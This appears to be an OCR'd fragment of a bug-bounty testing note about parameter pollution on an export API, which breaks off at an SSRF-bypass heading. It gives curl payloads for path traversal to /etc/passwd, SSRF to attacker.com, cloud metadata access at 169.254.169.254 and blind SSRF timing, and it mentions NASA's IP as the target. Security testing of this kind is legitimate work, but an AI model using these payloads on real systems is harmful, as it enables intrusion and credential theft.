     - `0` → _End of transmission_
        

### **Final Result (What the Server Sees)**

When reassembled, the body is:

```
type=pdf&type=csv
```

**Look if you're able to change At least the File Type**

### **Next Steps to Test for Higher Impact**

1. **Try Path Traversal**
    
```bash
curl "https://api.target.com/export?type=pdf&type=../../../../etc/passwd"
```
    
- If it returns system files, **critical LFI vulnerability**.
        
- **Check for SSRF**
    
```bash
 curl "https://api.target.com/export?type=pdf&type=http://attacker.com/malicious"
```
    
- If the server fetches the URL, **SSRF possible**.
        
- **Test for Command Injection (If CSV/XML is Processed)**

### **Expected Output on Webhook.site**

If the API is vulnerable, your webhook will show:

```http
GET /malicious HTTP/1.1  
Host: attacker.com  
User-Agent: [Server’s User-Agent, e.g., Apache-HttpClient]  
Connection: keep-alive  
```

**Key Indicators of SSRF:**  
✅ Incoming request from **NASA’s IP** (not your own).  
✅ Unusual **User-Agent** (e.g., `Python-requests/2.28.1`).  
✅ If you get a **DNS lookup** but no HTTP request → **Blind SSRF**.

```bash
curl "https://api.target.com/export?type=pdf&type=http://169.254.169.254/latest/meta-data"
```

#### **Blind SSRF (Time-Based Detection)**

```bash
curl "https://api.target.com/export?type=pdf&type=http://attacker.com/delay=5"
```
### **Common SSRF Bypasses**
